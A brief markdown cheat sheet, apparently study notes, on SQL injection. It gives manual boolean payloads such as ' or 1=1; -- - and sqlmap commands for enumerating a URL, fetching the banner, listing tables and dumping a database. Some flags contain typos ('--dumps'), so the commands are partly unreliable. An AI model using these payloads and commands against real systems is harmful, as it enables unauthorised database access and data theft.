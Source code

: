 

### Manual SQL

> ' and 1=1; -- -  | True returns something

> ' and 1=2;-- -   | False does not return anything
 
> ' or 1=1; -- - 

> ' or 1=2; -- - 


### SQLmap 


- sqlmap -u "URL" -- > qquick enumeration fro the URL


- sqlmap -u "URL" -b --> get the banner 


- sqlmap -u "URL" --tables --> to get the tables 

-  sqlmap -u "URL" --dumps --> dumps all the database
